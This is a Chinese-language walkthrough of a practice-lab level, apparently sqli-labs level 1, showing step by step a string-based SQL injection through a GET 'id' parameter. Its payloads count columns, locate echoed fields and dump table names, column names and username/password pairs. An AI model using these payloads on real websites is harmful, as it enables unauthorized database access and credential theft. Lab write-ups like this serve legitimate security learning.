








# 第一关

## 判断是否存在SQL注入
1. *1 根据提示，发现是GET传参方式，参数是id*


2. *尝试SQL注入，发现存在_字符型注入_，单引号（'）闭合方式，有回显。可以用联合注入*
```python  
?id=1
#完整sql查询语句如下
SELECT * FROM users WHERE id='1'' LIMIT 0,1
```


## 2.联合注入
1. *首先得知道当前查询语句返回的表格有多少列,_union前后拼接的查询语句列数必须相同_。*
*order by查询表格列数，如果报错就说明超出表格列数，返回正常则说明没有超出列数。*
*使用注释符号（--+）注释后面的单引号，完成闭合，*
```python
# 正常
?id=1'order by 3 --+
# 报错
?id=1'order by 4 --+
``` 


2. *联合注入，判断回显位置。发现回显位是2，3*
```python
?id=-1' union select 1, 2, 3 --+ 
```


3. *查询数据库类型、版本和当前数据库名，是mysql数据库，版本5.5.53，数据库名security*
```python
?id=-1' union select 1,database(),version()--+
```


4. *爆出表名*
```python 
?id=-1' union select 1, (select group_concat(table_name) from information_schema.tables where table_schema='security'), 3 --+
```


5. *爆出段名*
```python 
?id=-1' union select 1, (select group_concat(column_name) from information_schema.columns where table_name='users'), 3 --+
```

6. *爆出数据*
```python 
?id=-1' union select 1, (select group_concat(username, 0x7e, password) from users), 3 --+
```

